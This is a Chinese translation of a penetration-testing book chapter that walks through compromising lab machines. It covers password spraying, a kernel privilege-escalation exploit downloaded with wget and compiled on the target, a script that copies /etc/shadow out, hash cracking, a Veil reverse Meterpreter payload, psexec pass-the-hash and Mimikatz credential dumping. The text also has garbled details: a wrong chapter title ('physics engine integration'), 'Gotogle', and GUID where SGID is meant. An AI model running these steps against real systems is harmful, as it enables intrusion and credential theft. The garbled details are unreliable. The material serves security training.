# 第五章：用 Python 利用服务

今天渗透测试和利用服务的一个重要误解是，可利用的**远程代码执行**（**RCE**）漏洞的普遍存在。现实是，找到数百个易受攻击的服务，只需要将**Internet Protocol**（**IP**）地址插入工具中即可利用的日子已经基本结束了。你仍然会发现可以通过溢出堆栈或堆来利用的漏洞，只是数量大大减少或更加复杂。我们将解释为什么在今天的软件中这些漏洞更难利用，在第八章中，*用 Python、Metasploit 和 Immunity 进行利用开发*，别担心，我们会讲到的。

所以，如果你期望每次进入网络并利用 Microsoft Security Bulletins MS08-067、MS03-024 或 MS06-40 来立足，那你大错特错了。不要担心，它们仍然存在，但不是在每台主机上都能找到，可能只有网络中的一台系统有这些漏洞。更糟糕的是，对于我们作为模拟恶意行为者来说，它甚至可能无法让我们访问一个允许我们在参与中前进的盒子。通常情况下，它可能是一个遗留系统或一个甚至没有连接到不同凭证集的域的供应商产品。当然，并不是总是这种情况。

找到的 RCE 漏洞数量完全取决于组织的安全成熟度。这与规模或预算无关，而是与他们的安全计划实施策略有关。安全策略薄弱且新成立的程序的组织将有更多这样的漏洞，而安全策略更好的组织将有更少。许多新的渗透测试人员忽视的另一个因素是人才；公司可能在防御方面雇佣的人员，这可能会显著影响他们在环境中的操作能力。

即使一个组织有一个薄弱的安全策略，如果它雇佣了高技能的工程师和管理员，它可能仍然拥有一个相当强大的战术安全姿态。在战术层面上，非常聪明的技术人员意味着可以制定强有力的控制措施，但如果没有一个全面的安全策略，设备可能会被忽视，相关强大的技术姿态中可能存在漏洞。另一个风险是当这些技能成员离开组织，或者更糟糕的是，如果他们变得叛逆。

无论如何，如果没有建立的流程和程序，任何强大的安全控制在那一点都可能被认为已经受到了损害。此外，全面和验证的控制实施可能是不可能的。作为渗透测试人员，这对你来说很重要，因为你可以理解组织信息安全计划的起伏和流动以及常见原因。管理层将寻求你对这些问题的答案，你所看到的指标将帮助你诊断问题并确定根本原因。

# 理解服务利用的新时代。

在之前的章节中，已经做好了准备，向你展示了一个新时代利用的模拟示例。这意味着，我们正在利用配置错误、默认设置、不良实践和安全意识的缺乏。与其在开发的代码中找到控制差距，不如在环境中包括人员培训的实施中找到。进入或穿越网络的特定方式将取决于网络，攻击向量会发生变化，而不是记住特定的向量，要专注于建立一种思维方式。

今天的利用意味着识别已经存在的访问权限，并窃取该访问权限的一部分，通过该访问级别来妥协系统，捕获这些系统的详细信息，并横向移动，直到识别出关键数据或新的访问级别。一旦你确定了对系统的访问权限，你将尝试查找允许你移动和访问其他系统的详细信息。这意味着配置文件中包含用户名和密码、存储的用户名和密码，或者挂载的共享文件。这些组件中的每一个都将为您提供信息，以获取对其他主机的访问权限。以这种方式攻击系统的好处在于它比利用 RCE 和上传有效载荷要安静得多；你在必要协议的范围内移动，并且你更好地模拟了真正的恶意行为者。

为了建立一种一致的语言，你从一个主机移动到另一个主机，以相同的特权级别，这被称为横向移动。当你找到更高级别的特权，比如**域管理员（DA）**，这被认为是垂直移动或特权升级。当你利用对主机或网络区域的访问权限来获取以前无法看到的系统的访问权限，因为访问控制或网络隔离，这被称为枢纽。现在你理解了这些概念和术语，让我们来弹出一些框。

### 提示

为了模拟这个例子，我们将使用 Windows XP 模式和 Metasploitable 的组合，这两者都是免费使用的。有关设置 Metasploitable 的详细信息已经提供。Windows XP 模式的详细信息可以在以下两个**统一资源定位符**（**URL**）中找到[`zeltser.com/windows-xp-mode-for-vmware-virtualization/`](https://zeltser.com/windows-xp-mode-for-vmware-virtualization/)和[`zeltser.com/how-to-get-a-windows-xp-mode-virtual-machine-on-windows/`](https://zeltser.com/how-to-get-a-windows-xp-mode-virtual-machine-on-windows/)。记住要执行 Windows 机器可能有的尽可能多的这些漏洞，以启用其管理共享。在真实的域中，这是很常见的，因为它们经常用于管理远程系统。

# 理解利用的链接

在第四章中，*用 Python 执行凭据攻击*，我们展示了如何在系统或环境中识别合法帐户。Metasploitable 有很好的文档，但是获取对系统的访问权限的概念与现实生活中是相同的。此外，像这样的易受攻击的框提供了一个很棒的培训环境，对你来说，从可用性和法律角度来看，风险很小。在上一章中，我们验证了目标系统上存在`msfadmin`帐户，并且在 Metasploitable 中，默认情况下，该帐户的密码与用户名相同。

就像真实环境一样，我们通过网站和配置渠道进行研究，以确定默认帐户和设置是什么，然后使用这些信息智能地利用这些框。为了验证这些弱点，我们将执行密码喷洒攻击。这种攻击使用一个密码对应多个用户名，这可以防止帐户锁定。它依赖于环境中密码重用的原则，或者用户在所在地区常用的密码。

### 注意

在美国，你会发现最常用的密码是 Password1、Password123，以及季节和年份，比如 Summer2015，还有一些与公司名称或测试的用户名有关的密码。直到今天，我在每次参与的项目中都发现了某种形式的弱密码或默认密码。如果你观看或阅读任何一次重大的数据泄露，你会发现弱密码、默认密码或已知密码是其中的一个组成部分。另外，请注意，所有这些密码都符合 Windows Active Directory 密码复杂性要求，如[`technet.microsoft.com/en-us/library/hh994562%28v=ws.10%29.aspx`](https://technet.microsoft.com/en-us/library/hh994562%28v=ws.10%29.aspx)所示。

## 检查弱密码、默认密码或已知密码

使用已知用户名`msfadmin`执行对 Metasploitable 的密码喷洒攻击，使用与用户名相同的密码。我们扫描目标主机以查找我们可以测试凭据的开放服务。



然后我们可以注意到**Secure Shell** (**SSH**)服务是开放的，因此这将是一个很好的目标服务。攻击这项服务将提供对主机的交互式访问。例如，我们可以对 SSH 服务启动 Hydra，以测试目标主机上的这个特定弱点。如下图所示，我们已经验证了提供对系统访问权限的用户名和密码组合。



现在，许多新的评估者可能会只使用 Metasploit 来执行这个攻击训练，如第三章所示，*物理引擎集成*。问题在于，你无法与服务进行交互，而是必须通过命令行而不是终端访问。为了绕过这个限制，我们将使用 SSH 客户端。

### 注意

命令行不允许使用交互式命令，而终端可以。通过 SSH 客户端利用 SSH 服务提供终端访问，而 Metasploit 模块`ssh_login`提供命令行访问。因此，在可能的情况下，终端是首选的，如下例所示。

## 获取系统的 root 访问权限

现在我们知道了访问该系统的用户名和密码组合，我们可以尝试访问主机并识别系统上的其他细节。具体来说，我们想要识别可能为我们提供访问其他系统的其他用户名和密码。为了做到这一点，我们需要查看是否可以访问目标主机上的`/etc/passwd`和`/etc/shadow`文件。这两个文件的组合将提供主机上的用户名和相关密码。使用用户名和密码`msfadmin`通过 SSH 登录系统。



现在，我们验证我们是否可以访问`/etc/passwd`文件，然后使用**Secure Copy** (**SCP**)将文件复制到我们的 Kali 主机上。以下成功的复制显示我们已经访问了该文件：

获取系统的 root 访问权限

然后，我们尝试使用当前访问权限访问`/etc/shadow`，并确定这是不可能的。



这意味着我们需要提升本地权限以访问该文件；在 Linux 中，可以通过四种主要方式之一来实现。最简单的方法是找到主机上存储的用户名和密码，这在 Linux 或 UNIX 服务器上非常常见。第二种方法，不需要引入漏洞到系统中，是通过操纵文件、输入和输出，这些文件、输入和输出使用了 Sticky 位、**Set User Identifier** (**SUID**)和**Globally Unique Identifier** (**GUID**)的不当用法。第三种方法是利用内核的一个易受攻击的版本。

第四种方法是获得对这些文件的访问权限最容易被忽视的方式，即通过`misconfigured sudo`访问。您只需执行`sudo su -`，这将实例化一个作为 root 的会话。以下显示了这是一个简单获得系统根访问权限的例子：



### 提示

从技术上讲，还有第五种方法，但这意味着利用可能直接提供根访问权限的不同服务。这在 Metasploitable 中可用，但在真实环境中不太常见。

现在请记住，此时我们可以轻松地获取这两个文件并将它们复制出来。为了提供一个更真实的例子，我们将突出显示对内核的利用研究验证和执行。因此，我们需要验证系统上的内核版本，并使用命令`uname -a`来查看它是否容易受到攻击。



系统正在运行内核版本 2.6.24，这是过时的并且已知容易受到攻击。这可以在许多地方进行研究，包括最受欢迎的[`www.cvedetails.com/`](http://www.cvedetails.com/)之一，它不仅引用漏洞，还指出可以找到利用程序的位置。

### 提示

永远不要从互联网上下载利用程序并直接在系统上利用它。相反，始终在实验室环境中进行测试，在一个与任何其他系统或设备都没有连接的隔离系统上进行测试。在测试时，确保运行网络监听和其他监控工具，以验证可能在后台运行的活动。

从**Gotogle**页面，您可以直接搜索漏洞。


结果是这个内核有大量的漏洞。我们正在寻找一个特定的漏洞，它将允许我们使用已知的利用程序进行特权升级。因此，我们导航到**漏洞（324）**下找到的列出的漏洞，这代表了在撰写本书时发现的特定内核版本的漏洞数量。



我们按**Exploits 数量降序**组织漏洞，以找到可利用的漏洞。



然后，我们寻找每个在“# of Exploits”列中有红色数字和在**Vulnerability Types**列中有**+Priv**的漏洞，以识别有用的利用程序。这表示公开可用的利用程序数量，以及在这种情况下利用漏洞会返回什么，即提升的权限。



CVE-2010-1146 是一个非常好的候选项，如下例所示。现在可以在[`www.exploit-db.com/exploits/12130`](http://www.exploit-db.com/exploits/12130)找到一个公开可用的利用程序，由[`www.cvedetails.com/`](http://www.cvedetails.com/)引用。



现在，在您下载利用程序并运行之前，您应该检查并查看系统是否甚至容易受到此利用程序的攻击。基本要求是挂载了**Reiser 文件系统**（**ReiserFS**）并带有**扩展属性**（**xattr**）。因此，我们需要使用内置命令的组合来检查并查看我们的 Metasploitable 实例中是否有 ReiserFS xattr。首先，我们需要使用`fdisk -l`来识别分区，然后使用`df -T`来识别文件系统类型，然后必要时可以查看每个 ReiserFS 分区。`fdisk -l`的任何输出，带有标识符 83 的都有可能是 ReiserFS 挂载的候选项。



如上所示，设备`/dev/sda1`的标识符为 83，因此该挂载点有可能是 ReiserFS；可以使用`df -T`来验证。运行命令后，我们看到该设备是一个 EXT3 文件系统，这意味着它不是 ReiserFS，因此我们不需要检查文件系统是否启用了扩展属性。

### 提示

您还可以检查`/etc/fstab`，看看分区是否已正确定义为 xattr 和 reiserfs。请记住，这不会检测系统上潜在的手动挂载，因此可能会错过攻击向量。但请记住，`/etc/fstab`中可能还包含明文凭据，或者包含凭据的挂载文件的引用。因此，这仍然是一个检查允许您继续前进的项目的好地方。



因此，内核在理论上对这种 exploit 是有漏洞的，但是该主机的当前配置对特定的 exploit 不易受攻击。现在我们知道，即使在执行之前，这种特定的特权利用也不会起作用。这意味着，我们需要回到[`www.cvedetails.com/`](http://www.cvedetails.com/)，并尝试识别其他可行的 exploit。一个潜在的可行漏洞涉及 CVE-2009-1185，有一个在 milw0rm 上的 exploit。



### 注意

任何指向[`www.milw0rm.com`](http://www.milw0rm.com)的 exploit 的引用现在位于[`www.exploit-db.com/`](http://www.exploit-db.com/)。当 Offensive Security 团队接管`milw0rm`数据库时，`milw0rm`数据库被移动到`exploit-db`。因此，只需调整相关的 URL，您将找到相同的详细信息。

现在您可以从网站下载 exploit 并将其传输到系统，或者我们可以通过命令行作弊并完成它。只需运行以下命令：

```py
wget http://www.exploit-db.com/download/8572 -O escalate.c

```

这将下载 exploit 并将其保存为`code`，以便在本地主机上编译和执行。



我们需要找到`gcc`编译器，并验证它是否在我们的路径中，以便轻松执行，然后在目标系统上编译代码。可以按照以下步骤完成，使用`gcc`和以下命令将代码编译为 exploit：`gcc escalate.c -o escalate`。这将输出名为`escalate`的新可执行二进制文件。

### 提示

在真实系统上执行时，不要将文件命名为`exploit`、`escalate`、`shell`、`pwned`或类似的名称。这些是许多安全工具扫描的常见名称，因此它们在执行之前可能会被标记。对于本例来说，这并不重要。

现在编译的 exploit 被称为`escalate`，一旦我们确定了一些其他信息组件，就可以运行。这个 exploit 利用了 udevd netlink 套接字进程，因此我们需要识别该进程并将 exploit 传递给**进程标识符**（**PID**）。这可以在引用服务`/proc/net/netlink`的文件中找到。您可以通过执行以下命令来识别详细信息：`cat /proc/net/netlink`。



### 注意

请记住，您的 PID 可能会有所不同。

这个 exploit 特别执行一个包含命令的脚本，写入文件`/tmp/run`。因此，让我们将`/etc/shadow`文件复制到`/tmp`，因为我们首先要访问的就是这些数据。我们还需要验证复制的文件是否与原始文件相同；我们可以通过对每个文件进行**消息摘要 5**（**MD5**）并将结果放入`/tmp`中的另一个文件`hashes`来轻松地完成这一点。在`/tmp`中创建一个名为 run 的文件，并添加以下内容：

```py
#!/bin/bash
cp /etc/shadow /tmp/shadow
chmod 777 /tmp/shadow
md5sum /tmp/shadow > /tmp/hashes
md5sum /etc/shadow >> /tmp/hashes

```

然后，使用特定进程的参数运行漏洞利用。下图显示了`gcc`编译器的识别、漏洞利用的编译、执行和结果的证明：



### 注意

可以直接卸载文件，而不是移动和复制它，但通常情况下，你不会将系统的用户名和密码写入被利用的盒子上的文件，因为你永远不知道谁已经在上面。此外，这个例子是设计为简单的端口重定向工具，如`netcat`可能不在系统上。

然后，通过比较两个文件的 MD5 哈希值，并将其写入`/tmp/hashes`文件，验证复制文件的内容与`/etc/shadow`文件相同。然后可以将新复制的文件从系统上复制到攻击盒上。

### 提示

在真实环境中一定要非常谨慎，当你复制`passwd`或 shadow 文件时，可能会破坏目标系统。因此，请确保不要删除、重命名或移动原始文件。如果在目标系统的其他位置复制了文件，请删除它，以免帮助真正的攻击者。

同时，记住内核漏洞利用有三种输出，它们可能每次执行时都不起作用（所以再试一次），它们可能会使特定主机崩溃，或者提供所需的结果。如果你执行这些类型的攻击，一定要在执行之前与客户一起工作，以确保它不是关键系统。简单的重启通常可以解决崩溃问题，但这些类型的攻击总是比在服务器上执行更安全。



## 理解 Linux 哈希破解

现在，在 Kali 盒上创建一个目录来处理所有破解数据，并将 shadow 和`passwd`文件移动过去。



然后，使用 John 来使用`unshadow`命令组合文件，然后开始默认的破解尝试。



## 测试账户凭据的同步

有了这些结果，我们可以确定这些凭据是否在网络中被重用。我们知道目标网络中主要是 Windows 主机，但我们需要确定哪些主机开放了端口`445`。然后我们可以尝试确定，当运行以下命令时，哪些帐户可能授予我们访问权限：

```py
nmap -sS -vvv -p445 192.168.195.0/24 -oG output

```

然后，使用以下命令解析开放端口的结果，这将提供一个启用**Server Message Block (SMB)**的目标主机文件。

```py
grep 445/open output| cut -d" " -f2 >> smb_hosts

```

密码可以直接从 John 中提取，并写成一个密码文件，用于后续的服务攻击。

```py
john --show unshadowed |cut -d: -f2|grep -v " " > passwords

```

### 提示

第一次运行这种类型的攻击时，一定要在单个主机上进行测试。在这个例子中，我们使用了 sys 帐户，但更常见的是使用 root 帐户或类似的管理帐户来测试密码重用（同步）在一个环境中。

使用`auxiliary/scanner/smb/smb_enumusers_domain`进行的以下攻击将检查两件事。它将确定此帐户可以访问哪些系统，以及当前登录到系统的相关用户。在此示例的第二部分中，我们将重点介绍如何识别实际特权帐户和域的一部分。

`smb_enumusers_domain`模块有好坏之分。坏的一面是您无法将多个用户名和密码加载到其中。这种能力是为`smb_login`模块保留的。`smb_login`的问题在于它非常嘈杂，因为许多签名检测工具会对这种测试登录的方法进行标记。第三个模块`smb_enumusers`可以使用，但它只提供与本地用户相关的详细信息，因为它根据安全账户管理器（SAM）文件内容识别用户。因此，如果用户有域账户并且已登录到该系统，`smb_enumusers`模块将无法识别他们。

因此，在确定横向移动的目标时，要了解每个模块及其限制。我们将重点介绍如何配置`smb_enumusers_domain`模块并执行它。这将展示一个获得对易受攻击主机访问权限的示例，然后验证 DA 账户成员资格。然后可以使用这些信息来确定 DA 的位置，以便使用 Mimikatz 提取凭据。

### 注意

对于这个例子，我们将使用 Veil 作为自定义利用程序，尝试绕过主机入侵防护系统（HIPS）。有关 Veil 的更多信息可以在[`github.com/Veil-Framework/Veil-Evasion.git`](https://github.com/Veil-Framework/Veil-Evasion.git)找到。

因此，我们配置模块使用密码`batman`，并且目标是系统上的本地管理员账户。这可以更改，但通常使用默认值。由于它是本地管理员，域设置为`WORKGROUP`。下图显示了模块的配置：



### 注意

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件中，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了有关谁登录到系统的详细信息。这意味着返回的账户名称中有相关的已登录用户，并且本地管理员账户将在该系统上起作用。这意味着这个系统很容易受到“传递哈希攻击”（PtH）的威胁。



### 注意

`psexec`模块允许您传递提取的本地区域网络管理器（LM）：新技术 LM（NTLM）哈希和用户名组合，或者只是用户名密码对来获取访问权限。

首先，我们设置一个自定义的 multi/handler 来捕获 Veil 生成的自定义利用程序，如下例所示。请记住，我使用`443`作为本地端口，因为它可以绕过大多数 HIPS，而本地主机将根据您的主机而变化。



现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以通过导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`来执行此操作。Veil 有许多有效载荷，可以使用各种混淆或保护机制生成，要查看要使用的特定有效载荷，执行`list`命令。您可以通过输入有效载荷的编号或名称来选择有效载荷。例如，运行以下命令生成一个不使用 shell 代码的 C#分段器，但请记住，这需要目标计算机上特定版本的.NET 才能工作。

```py
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```

### 注意

典型有效载荷有两个组成部分，分别是分段器和阶段。分段器在攻击者和受害者之间建立网络连接。通常使用本地系统语言的有效载荷可以是纯粹的分段器。第二部分是阶段，这些是由分段器下载的组件。这些可以包括像 Meterpreter 这样的东西。如果两个项目结合在一起，它们被称为单个；想想当你创建你的恶意**通用串行总线**（**USB**）驱动器时，这些通常是单个。

输出将是一个可执行文件，将生成一个加密的反向**超文本传输安全协议（HTTPS）** Meterpreter。



有效载荷可以使用脚本`checkvt`进行测试，该脚本可以安全地验证有效载荷是否会被大多数 HIPS 解决方案拾取。它可以在不上传到 Virus Total 的情况下进行此操作，也不会将有效载荷添加到数据库中，许多 HIPS 提供商都会从中提取。相反，它会将有效载荷的哈希与数据库中已有的哈希进行比较。



现在，我们可以设置`psexec`模块以引用自定义有效载荷进行执行。



更新`psexec`模块，使其使用由`Veil-Evasion`生成的自定义有效载荷，通过设置`EXE::Custom`并使用`set DisablePayloadHandler true`禁用自动有效载荷处理程序，如下所示：



利用目标机器，然后尝试确定域中的 DA 是谁。这可以通过两种方式之一完成，即使用`post/windows/gather/enum_domain_group_users`模块或通过 shell 访问使用以下命令：

```py
net group "Domain Admins"

```

然后，我们可以通过先前运行的模块的输出文件进行`Grep`，以定位可能已登录这些 DA 的相关系统。当访问这些系统中的一个时，内存中可能会有 DA 令牌或凭据，这些可以被提取和重复使用。以下命令是分析这些类型条目的日志文件的示例：

```py
grep <username> <spoofile.log>

```

正如您所看到的，这条非常简单的利用路径可以让您确定 DA 的位置。一旦您进入系统，您只需`load mimikatz`并从已建立的 Meterpreter 会话中使用`wdigest`命令提取凭据。当然，这意味着系统必须比 Windows 2000 更新，并且在内存中有活动凭据。如果没有，将需要额外的努力和研究来继续前进。为了强调这一点，我们使用我们已建立的会话来提取凭据，如下例所示。凭据在内存中，由于目标机器是 Windows XP，所以没有冲突，也不需要额外的研究。



除了从系统中提取活动 DA 列表所获得的情报外，我们现在还有另一组确认的凭据可供使用。重复使用这种攻击方法可以让您快速在网络中移动，直到找到可行的目标。

# 使用 Python 自动化利用列车

这个利用火车相对简单，但我们可以使用**Metasploit 远程过程调用**（**MSFRPC**）自动化部分内容。此脚本将使用`nmap`库扫描端口`445`的活动端口，然后生成一个目标列表，以便使用通过参数传递给脚本的用户名和密码进行测试。脚本将使用相同的`smb_enumusers_domain`模块来识别具有重复凭据和其他可用用户登录的框。首先，我们需要安装 Python 的`SpiderLabs msfrpc`库。这个库可以在[`github.com/SpiderLabs/msfrpc.git`](https://github.com/SpiderLabs/msfrpc.git)找到。

### 注意

书中的 GitHub 存储库可以在[`github.com/funkandwagnalls/pythonpentest`](https://github.com/funkandwagnalls/pythonpentest)找到，并且其中有一个设置文件，可以运行以安装所有必要的软件包、库和资源。

我们正在创建的脚本使用`netifaces`库来识别哪个接口 IP 地址属于您的主机。然后，它扫描端口`445`，即 IP 地址、范围或**类间域路由**（**CIDR**）地址上的 SMB 端口。它消除了属于您接口的任何 IP 地址，然后使用 Metasploit 模块`auxiliary/scanner/smb/smb_enumusers_domain`来测试凭据。同时，它验证了系统上登录的用户。除了实时响应之外，此脚本的输出还包括两个文件，一个包含所有响应的日志文件，以及一个保存具有 SMB 服务的所有主机的 IP 地址的文件。

### 提示

这个 Metasploit 模块利用了 RPCDCE，它不在端口`445`上运行，但我们正在验证该服务是否可用以进行后续利用。



然后，如果作为攻击者发现其他凭据集进行测试，可以将此文件馈送回脚本，如下所示：



最后，脚本可以直接传递哈希，就像 Metasploit 模块中所示的那样：

自动化利用 Python 的利用火车

### 注意

每次运行脚本时，输出都会略有不同，这取决于你获取的控制台标识符来执行命令。唯一的真正区别将是与 Metasploit 控制台启动典型的附加横幅项目。

现在有几件事情必须说明，是的，你可以只生成一个资源文件，但是当你开始涉及拥有数百万个 IP 地址的组织时，这变得难以管理。此外，MSFRPC 也可以直接将资源文件馈送到其中，但这可能会显著减慢过程。如果你想进行比较，请重写此脚本，以执行与你之前编写的`ssh_login.py`脚本相同的测试，但直接集成 MSFRPC。

### 注意

未来书中最重要的事项是，许多未来的脚本将非常庞大，并具有额外的错误检查。由于你的技能是从零开始建立的，已经说明的概念将不会被重复。相反，整个脚本可以从 GitHub 下载，以识别脚本的细微差别。此脚本确实使用了`ssh_login.py`脚本中使用的先前的`netifaces`函数，但出于简洁起见，我们不会在本章中复制它。你可以在这里下载完整的脚本[`raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/msfrpc_smb.py`](https://raw.githubusercontent.com/funkandwagnalls/pythonpentest/master/msfrpc_smb.py)。

